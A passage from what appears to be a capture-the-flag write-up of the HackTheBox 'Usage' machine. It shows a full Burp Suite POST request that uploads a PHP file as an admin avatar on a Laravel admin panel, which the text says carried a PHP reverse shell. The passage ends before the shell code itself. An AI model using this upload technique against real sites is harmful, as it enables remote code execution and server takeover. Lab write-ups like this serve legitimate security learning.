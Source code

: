 ![image upload feature found](images/image7.png)


Thus, using Burpsuite, the PHP reverse shell file was copied and pasted into the "avatar" section in the body of the POST request as shown:


```
POST /admin/auth/setting HTTP/1.1
Host: admin.usage.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-PJAX: true
X-PJAX-Container: #pjax-container
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------4114569251264458532634043821
Content-Length: 609
Origin: http://admin.usage.htb
DNT: 1
Connection: close
Referer: http://admin.usage.htb/admin/auth/setting
Cookie: laravel_session=eyJpdiI6IkpmT0tJT2swdHpud3RoYzZ1TmlBU1E9PSIsInZhbHVlIjoidTFtaG1wRkMrSi9ZS0hzVmpHZkhpZldPK01pUjlPUkdSci9yL2sxZFR2Wkx1U21oWW5mVXVsUkYzdFRjcCttK3F1aHFjV1NaV1NFcmdGalpGSFBaUFBLV3ZBVnIxUG1jWlRVWVEzTVNTdnljVTdIL3ZCaUFleUw5R04zUVdTdkoiLCJtYWMiOiI5MTc2NGM1OTNhOWQ5ZWZhNTgyNDhjMTVkNzgyYmViOTljMzkxMTViZGVhNjUwZDlkOTE3OTlmODJkMGZlZjYxIiwidGFnIjoiIn0%3D; XSRF-TOKEN=eyJpdiI6IjFoZzQ2WnlGNHVJL0JKbVlWRHI1Mmc9PSIsInZhbHVlIjoicUR4MFVzdTBLL2pNQllRaFNRVHB5c3MrNk5pL1p3Zzd3dVE1dWpmclRRa0Y5d1JjRk1GVUozWEJqSHVUTW5UTit1bGN4QXdGc0VqRDErcUVsV0xFOXhwUFpSZWJmK0RYc21NSUVROWJUUXBQRHc3RXFYa1NBS1hhRjRiS29OMEkiLCJtYWMiOiJkNDExZTZlOGMxZTE3ZDVlOTVkYTFjODRiNjQ5Y2UzNTk3ZTg2ZGMzY2I3M2MyZWI1MWZiNGI2Njg4OTA5MTZjIiwidGFnIjoiIn0%3D; remember_admin_59ba36addc2b2f9401580f014c7f58ea4e30989d=eyJpdiI6IkUybjR6bnlleDEyWEdMRHJYa0FLSVE9PSIsInZhbHVlIjoiSnptUFR5QzRXRGg0NXdOd2cwS3E4VmZ4WHZYcmdEbU14RUJHTEVkS1FlUlBjOGNSRTFLcUw4ZkZpZUsrUzgyU1p5OUw2eGlQaWx4VlYyRUV2cEk5NWNPMitpV016RlphUFp2RElZdFhvVDJaVXord3FmcU8rMkhrVk9UNXUrRzBkUGtVSnAyUCtiR25wbE5KWGNwWFNvZVZ1OWhvNi9JaEI3REVJZ202dm81eUhGUjEwb3l2VkhIT3lUaGtqZmMyQmsyaUxzc0lxK2JwL3J3a01CWDVtZ2NaL216d3U5YjF6aDR5KytwTDk4az0iLCJtYWMiOiIwZGJhYWY2MTFjNzgyMTJhZTJmNmU1MzhhN2U5NGNlYjJiZmYzOWZhMmNkNmQ4YjRlYjBlMThmOWZlYzI2NTFhIiwidGFnIjoiIn0%3D

-----------------------------4114569251264458532634043821
Content-Disposition: form-data; name="name"

Administrator
-----------------------------4114569251264458532634043821
Content-Disposition: form-data; name="avatar"; filename="file.php"
```
